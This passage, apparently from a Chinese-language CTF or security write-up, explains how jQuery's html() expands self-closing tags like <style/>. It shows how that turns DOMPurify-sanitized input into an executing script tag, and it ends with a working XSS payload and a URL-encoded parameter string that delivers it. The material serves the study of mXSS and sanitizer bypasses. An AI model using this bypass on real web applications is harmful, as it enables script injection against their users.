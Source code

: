 这段代码就是用来转换一些自闭合标签的标签，例如&lt;blah/&gt;变成&lt;blah&gt;&lt;/blah&gt;，我们就可以利用这个特性来实现一些绕过，例如：

```
&lt;style&gt;&lt;style/&gt;Elon
```

经过innerHTML会变成

```
&lt;style&gt;
   &lt;style/&gt;Elon
&lt;/style&gt;
```

但是经过 jquery html() 就会变成

```
&lt;style&gt;
   &lt;style&gt;
&lt;/style&gt;
Elon
```

我们可以发现通过html()可以把一些自闭合的拆分，以及把内容转换出去，有点类似于 mXSS ，最终我们得到的是

```
&lt;style&gt;&lt;style&gt;&lt;/style&gt;Elon&lt;/style&gt;
```

所以我们可以利用这个特性绕过 XSS WAF，例如以下

```
&lt;style&gt;&lt;style/&gt;&lt;script&gt;alert()//
```

经过DOMPurify.sanitize我们可以得到

```
&lt;style&gt;&lt;style/&gt;&lt;script&gt;alert(1337)//&lt;/style&gt;
```

经过 jquery html()到最终渲染页面就变成了

```
&lt;style&gt;&lt;style&gt;&lt;/style&gt;&lt;script&gt;alert(1337)//&lt;/style&gt;&lt;/div&gt;&lt;/script&gt;&lt;/div&gt;&lt;/div&gt;
```

所以这就是 JQuery’s 类似于 mXSS 的 trick

综上所述，配合我们之前的内容，最终 payload 如下：

```
&lt;img name=notify&gt;&lt;style&gt;&lt;style/&gt;&lt;script&gt;alert()//
```

最终传参:

```
img=valid_img_url&amp;text=&lt;img name%3dnotify&gt;&lt;style&gt;&lt;style%2F&gt;&lt;script&gt;alert()%2F%2F
```
